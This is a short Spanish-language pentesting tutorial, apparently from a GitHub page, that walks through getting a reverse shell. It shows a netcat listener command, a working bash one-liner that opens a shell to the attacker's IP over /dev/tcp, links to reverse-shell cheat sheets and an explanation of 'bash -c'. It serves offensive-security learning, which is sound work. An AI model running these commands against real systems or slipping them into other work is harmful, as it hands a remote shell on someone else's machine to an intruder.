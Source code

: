 ## 🛠️ Reverse shell: procedimiento práctico

### Pasos

1. Determinar nuestra IP y la IP de la víctima.
2. Ponernos a la escucha en un puerto (listener) donde recibiremos la reverse shell.
3. Enviar y ejecutar la reverse shell.

### Ejemplo completo:

```
Nuestra IP   --> 172.17.0.1
IP víctima   --> 172.17.0.2
```

Ponemos a la escucha en el puerto 445:

```bash
nc -nvlp 445
```

Enviamos la reverse shell (por el medio que hayamos encontrado):

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

En el listener de `nc`, se establece la conexión interactiva.

---

## 🌐 Recursos para encontrar o generar reverse shells

- [Pentest Monkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [RevShells Online Generator](https://www.revshells.com/)

---

## 🧠 Tips y buenas prácticas

### ⚙️ Uso de `bash -c`

Si la reverse shell es en Bash, es recomendable utilizar:

```bash
bash -c "reverse shell"
```

Esto hace que el intérprete Bash ejecute una cadena de texto como si fuera un script o una serie de comandos.

- `bash` → invoca el intérprete de comandos Bash.
- `-c` → "execute commands from the following string" (ejecuta comandos desde la cadena que viene a continuación).
- `'...'` → la cadena de comandos que se desea ejecutar.
